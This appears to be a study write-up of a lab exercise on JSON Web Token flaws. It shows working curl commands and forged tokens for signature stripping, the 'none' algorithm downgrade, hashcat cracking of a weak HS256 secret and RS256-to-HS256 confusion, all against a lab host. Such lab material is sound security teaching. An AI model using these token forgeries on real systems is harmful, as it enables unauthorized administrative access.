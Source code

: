 ### Example of JWT token:

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9 - Header
eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0 - Payload 
UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4 - Signature
```

A JWT consists of three components, each Base64Url encoded and separated by dots:

- **Header** - The header usually indicates the type of token, which is JWT, as well as the signing algorithm that is used.
- **Payload** - The payload is the body of the token, which contain the claims. A claim is a piece of information provided for a specific entity. In JWTs, there are registered claims, which are claims predefined by the JWT standard and public or private claims. The public and private claims are those which are defined by the developer. It is worth knowing the different between public and private claims, but not for security purposes, hence this will not be our focus in this room.
- **Signature** - The signature is the part of the token that provides a method for verifying the token's authenticity. The signature is created by using the algorithm specified in the header of the JWT. Let's dive a bit into the main signing algorithms.

### Signing Algorithms

Although there are several different algorithms defined in the JWT standard, we only really care about three main ones:

- **None** - The None algorithm means no algorithm is used for the signature. Effectively, this is a JWT without a signature, meaning that the verification of the claims provided in the JWT cannot be verified through the signature.
- **Symmetric Signing** - A symmetric signing algorithm, such as HS265, creates the signature by appending a secret value to the header and body of the JWT before generating a hash value. Verification of the signature can be performed by any system that has knowledge of the secret key.
- **Asymmetric Signing** - An asymmetric signing algorithm, such as RS256, creates the signature by using a private key to sign the header and body of the JWT. This is created by generating the hash and then encrypting the hash using the private key. Verification of the signature can be performed by any system that has knowledge of the public key associated with the private key that was used to create the signature.

If using a HS265, may be able to crack this. See below.
### Security in the Signature

JWTs can be encrypted (called JWEs), but the key power of JWTs comes from the signature. Once a JWT is signed, it can be sent to the client, who can use this JWT wherever needed. We can have a centralised authentication server that creates the JWTs used on several applications. Each application can then verify the signature of the JWT; if verified, the claims provided within the JWT can be trusted and acted upon.

### Signature Validation Mistakes
#### Not Verifying the Signature

In the following example, a token is used to authenticate as the user 'user':
```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' http://10.10.37.161/api/v1.0/example2?username=user
{
  "message": "Welcome user, you are not an admin"
}
```

We can remove the signature part of the token, and it is still found to be valid:

```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.' http://10.10.37.161/api/v1.0/example2?username=user
{
  "message": "Welcome user, you are not an admin"
}
```

We may be able to do privilege escalation on the payload

```bash
eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0 = {"username":"user","admin":0}
```

We can replace 'user' with 'admin' and the '0' with a '1':

```bash
garffff@garffff:~$ echo -n '{"username":"admin","admin":1}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9
```

Sending the modifyed token, confirms we have access to the admin account:

```bash
garffff@garffff:~$ echo -n '{"username":"admin","admin":1}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.' http://10.10.37.161/api/v1.0/example2?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}"
}
```

#### Downgrading to None

We can remove the encryption type from the header:

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9 = {"typ":"JWT","alg":"HS256"}
```

By setting the 'alg' header to 'none':

```bash
garffff@garffff:~$ echo '{"typ":"JWT","alg":"None"}' | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0K
```

Next, set the payload to the user we want to priv esc to:

```bash
garffff@garffff:~$ echo '{"username":"admin","admin":1}' | base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9Cg
```

Put it all together:

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9Cg.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4
```

And send:

```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9Cg.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' http://10.10.37.161/api/v1.0/example3?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{fb9341e4-5823-475f-ae50-4f9a1a4489ba}"
}
```

#### Weak Symmetric Secrets

If a symmetric signing algorithm is used, the security of the JWT relies on the strength and entropy of the secret used. If a weak secret is used, it may be possible to perform offline cracking to recover the secret. Once the secret value is known, you can again alter the claims in your JWT and recalculate a valid signature using the secret.

```bash
garffff@garffff:~/Downloads$ echo 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.yN1f3Rq8b26KEUYHCZbEwEk6LVzRYtbGzJMFIF8i5HY' > jwt.txt
```

```bash
garffff@garffff:~/Downloads$ hashcat -m 16500 -a 0 jwt.txt jwt.secrets.list
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.yN1f3Rq8b26KEUYHCZbEwEk6LVzRYtbGzJMFIF8i5HY:secret
```

With the secret, modify the JWT token using https://jwt.io/

![[Pasted image 20241022153428.png]]

And verify:

```bash
garffff@garffff:~/Downloads$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.R_W3WxiyPIyIaYxD-PCY8PzDxd_DQKNkIDu9_KyzLzU' http://10.10.37.161/api/v1.0/example4?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{e1679fef-df56-41cc-85e9-af1e0e12981b}"
}
```
### Signature Algorithm Confusion

The last common issue with signature validation is when an algorithm confusion attack can be performed. This is similar to the `None` downgrade attack, however, it specifically happens with confusion between symmetric and asymmetric signing algorithms. If an asymmetric signing algorithm, for example, RS256 is used, it may be possible to downgrade the algorithm to HS256. In these cases, some libraries would default back to using the public key as the secret for the symmetric signing algorithm. Since the public key can be known, you can forge a valid signature by using the HS256 algorithm in combination with the public key.

```bash
garffff@garffff:~/Downloads$ curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password5" }' http://10.10.37.161/api/v1.0/example5
{
  "public_key": "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHSoarRoLvgAk4O41RE0w6lj2e7TDTbFk62WvIdJFo/aSLX/x9oc3PDqJ0Qu1x06/8PubQbCSLfWUyM7Dk0+irzb/VpWAurSh+hUvqQCkHmH9mrWpMqs5/L+rluglPEPhFwdL5yWk5kS7rZMZz7YaoYXwI7Ug4Es4iYbf6+UV0sudGwc3HrQ5uGUfOpmixUO0ZgTUWnrfMUpy2dFbZp7puQS6T8b5EJPpLY+iojMb/rbPB34NrvJKU1F84tfvY8xtg3HndTNPyNWp7EOsujKZIxKF5/RdW+Qf9jjBMvsbjfCo0LiNVjpotiLPVuslsEWun+LogxR+fxLiUehSBb8ip",
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.kR4DjBkwFE9dzPNeiboHqkPhs52QQgaHcC2_UGCtJ3qo2uY-vANIC6qicdsfT37McWYauzm92xflspmSVvrvwXdC2DAL9blz3YRfUOcXJT03fVM7nGp8E7uWSBy9UESLQ6PBZ_c_dTUJhWg35K3d8Jao2czC0JGN3EQxhcCGtxJ1R7T9tzBMaqW-IRXfTCq3BOxVVF66ePEfvG7gdyjAnWrQFktRBIhU4LoYwem3UZ7PolFf0v2i6jpnRJzMpqd2c9oMHOjhCZpy_yJNl-1F_UBbAF1L-pn6SHBOFdIFt_IasJDVPr1Ybv75M26o8OBwUJ1KK_rwX41y5BCNGcks9Q"
}

```

To use the script below, need to install the following:

```bash
garffff@garffff:~$ pip3 install pyjwt==1.5.3
```

Python script:

```bash
import jwt

public_key = "ADD_KEY_HERE"

payload = {
    'username' : 'admin',
    'admin' : 1
}

access_token = jwt.encode(payload, public_key, algorithm="HS256")
print (access_token)
```

Running the script:

```bash
garffff@garffff:~$ python3 secret.py 
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.PqBj1AKVA29470LnE7FbGonZ-NgzDCWhI8C-jr_Rjwc'
```

Verify:

```bash
garffff@garffff:~$ curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.PqBj1AKVA29470LnE7FbGonZ-NgzDCWhI8C-jr_Rjwc' http://10.10.42.255/api/v1.0/example5?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{f592dfe2-ec65-4514-a135-70ba358f22c4}"
}
```


